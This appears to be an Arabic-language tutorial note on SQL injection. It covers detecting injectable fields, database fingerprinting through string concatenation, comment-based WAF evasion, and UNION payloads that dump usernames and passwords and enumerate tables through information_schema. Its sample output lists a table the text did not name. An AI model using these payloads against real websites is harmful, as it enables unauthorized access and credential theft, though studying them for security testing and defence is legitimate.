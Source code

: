 ```sql
select * from books where year=2020;
```

```sql
select * from books where year=2020 or year=2017;
```

##### لو فى كذا كونديشن - AND هى اللى بتتنفذ الاول وبعد كده OR حتى لو OR مكتوبه الاول 
```sql
select * from books where year=2020 AND sales=1000;
```


كل داتا بيز فيها datatype مختلفة - كل datatype بيتعملها presentation بطريقة مختلفة.

| **ارقام**                                                                                                                          | **مش ارقام**                                                                                    |
| ---------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------- |
| بتكون بنسبة كبيرة من غير qout                                                                                                      | هنا لازم يكون فى quote                                                                          |
| يعنى زى الامثلة اللى مكتوبه فى الكويري فوق                                                                                         | `select * from books where author='islam';`                                                     |
| وده هيخلى اى عملية حسابية هتتكتب جوا الكود تتنفذ بالفعل<br>`select * from books where year=2020-20;`<br>الكويري دى هيخلى year=2000 | فى MariaDB - MySql<br>لو جينا عند الاسترينج وكتبناه كده <br>`'is' 'lam'`<br>هيعملها concatenate |
| هنا هنستفاد بالموضوع ده واحنا بنتيست ع الثغرة                                                                                      | فى PostgreSQL - Oracle<br>عشان يتعملها concatenate بنعمل كده <br>`'is'`\|\|`'lam'`              |
|                                                                                                                                    | فى SQLserver - microsoft sql server<br>بتكون كده `'is'+'lam'`                                   |

كل اللى فى الجدول ده بنجربه علشان نعرف هل فى sql injection ولا لاء 
وبردو هنعرف نوع الداتا بيز من خلال طريقة الــ concatenate اللى هتتقبل 
 
 منجحش الكلام ده ؟ -- يبقى هنتجه الى AND, OR
 بس نخلى بالنا واحنا بنتعامل مع الاسترينج ان هيكون فى سينجل او دوبل كوت فى الاخر 
 ف هنا لازم نستخدم الكومنت او نظبط الكويرى بتاعتنا ونحاول نقفل السينجل او الدوبل كوت اللى فى الاخر 
 كده مثلا 
```sql
--        ' AND 1='1
 select * from books where author='islam' AND 1='1';
```
هنا حطينا سينجل كوت قبل الواحد الاخير عشان يقفل الكوت بتاعت الكويري الاساسيه 
ودى اللى بنعتمد عليها فى الاول علشان لو الكويرى معقده وليها تكمله منعملش كومنت لحاجه احنا محتاجنها علشان الكويري تشتغل بدون اخطاء
 
والكومنت فى MySql 


Single Line: `-- xxxxxxxxx` 

Multiline: `/* xxxxxxxxxxxxxx */` 

 وفى بعض الاوقات بنستخدم Multiline Comment  على انه Space `/**/` علشان نعدى من WAF

---
### ازاى نــ Exploit SQL injection
### استخدام UNION
اللى لازم نعرفه عن union قبل ما نستخدمها هى ان 
1. لازم عدد الأعمدة في الاستعلام الأول (قبل UNION) يساوي عدد الأعمدة في الاستعلام الثاني. لو مش متساوي، الاستعلام هيفشل.
2. لازم أنواع البيانات تكون متوافقة (مثلاً title و username لازم يكونوا نصوص لو الاستعلام هيشتغل).

### مثال :-
**هنفترض إن فيه موقع فيه حقل بحث**:
- لما بتكتب كلمة في البحث (مثلاً search_term)، الموقع بيعمل استعلام زي:
```sql
SELECT title, 'Book' AS item_type FROM Books WHERE title LIKE '%search_term%';
```

هنجرب نستخدم union 
```sql
search_term' UNION SELECT username, password FROM users --
```
ف هنا الكويري هتتحول لكده لو فعلا مكان السيرش ده فيه ثغره 
```sql
SELECT title, 'Book' AS item_type FROM Books WHERE title LIKE '%search_term%' 
UNION 
SELECT username, password FROM users --
```
وبردو الكويرى مش هتشتغل اللا لو نوع الداتا اللى فى username نفس نوع الداتا اللى فى item_type
و نوع الداتا اللى فى  password نفس نوع الداتا اللى فى title

### تغير نوع الداتا 
طيب ولو فرضنا ان نوع الداتا فى password معمول INT 
ممكن نعمل حاجه زى كده ونحول نوع الداتا اللى موجود علشان الكويري تتنفذ
```sql
' UNION SELECT username, CAST(password AS CHAR) FROM users --
```

---
### معرفة عدد الاعمده
#### 1.  **طريقة ORDER BY**:

- **الفكرة**:
    - أمر ORDER BY بيُستخدم لترتيب النتايج بناءً على عمود معين. لو حاولت تستخدم ORDER BY برقم عمود أكبر من عدد الأعمدة الموجودة في الاستعلام، قاعدة البيانات هترجع خطأ.
    - بتزوّد الرقم تدريجيًا لحد ما تلاقي الرقم اللي يسبب خطأ، وبالتالي تعرف إن عدد الأعمدة هو الرقم اللي كان شغال قبل الخطأ.
    - زى كده `' ORDER BY 1 --` // `' ORDER BY 2 --` // `' ORDER BY 3 --` 

#### 2. **طريقة UNION SELECT مع قيم وهمية**:

- **الفكرة**:
    - تحقن استعلام UNION SELECT مع عدد أعمدة زيادة تدريجيًا، وتستخدم قيم وهمية (زي 1, 2, 3, إلخ) عشان تتأكد إن الاستعلام بيشتغل.
    - لو عدد الأعمدة صح، الاستعلام هينجح وهيظهر نتايج. لو العدد غلط، هيحصل خطأ أو مافيش نتايج.

`' UNION SELECT 1 --` 
لو فشل هنجرب
`' UNION SELECT 1, 2 --` 
 

ولو عرفت إن الأعمدة بتتعامل مع نصوص (strings) 
جرب تستخدم قيم زي 'test1', 'test2'  
بدل الأرقام وهكذا لغاية ما يطلعلنا قيمة وبكده نكون عرفنا عدد الاعمده 


---

### معرفة اسامى الجداول واسامى الاعمده:
عندنا حاجه اسمها #information_schema دى قاعدة بيانات افتراضية موجودة في أنظمة إدارة قواعد البيانات
بيكون فيها بيانات كتير زى جميع اسامى ( الجداول - الداتابيز - الاعمده اللى جوا الجداول )

واللى يهمنا فى الموضوع ده هو جدولين فى الداتابيز دى 

الاول وهو information_schema.tables 
والثانى information_schema.columns 


بعد ما عرفنا عدد الاعمده بالطريقة اللى فوق هنبتدى نشوف الاسامى بتاعة جداول الداتا بيز اللى احنا فيها 
ولازم الكويرى اللى هنحطها كــ بيلود تكون بنفس عدد الاعمده اللى موجوده فى الاستعلام الاساسي بتاع الموقع 

والكويرى هتكون كالاتى 
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE();
``` 

الجزء ده table_schema = DATABASE هو اللى بيحددلنا انه يبحث فى نفس الداتا بيز اللى احنا فيها 

هي اصلا الـ information_schema دى قاعدة بيانات الجداول اللى فيها من ضمنها جدول
اسمه tables وده اللى بيكون متجمع فيه كل الجداول اللى فى كل الداتا بيز اللى على السيرفر   
وده بندخله عن طريق الجزء ده information_schema.tables 
وبعد كده بنحدد ان العمود اللى اسمه table_schema واللى هو بيبقى فى اسماء الداتا بيز 
يعرضلنا فقط اسامى الجداول اللى فى الداتا بيز الحاليه.

لازم بقا ندمج الكويرى دى بعد معرفة عدد الاعمدة اللى موجوده فى الاستعلام الاساسى 
وليكن مثلا 3 اعمده .. يبقى paylod هتكون كده 

```sql
search_term' UNION SELECT table_name, 'test1', 'test2' FROM information_schema.tables WHERE table_schema = DATABASE() --
```

لو قاعدة البيانات الحالية فيها الجداول Books, employees, user_system 
النتيجة هتكون شكلها كده:
```
Book        | test1 | test2
employees   | test1 | test2
user_system | test1 | test2
orders      | test1 | test2
```

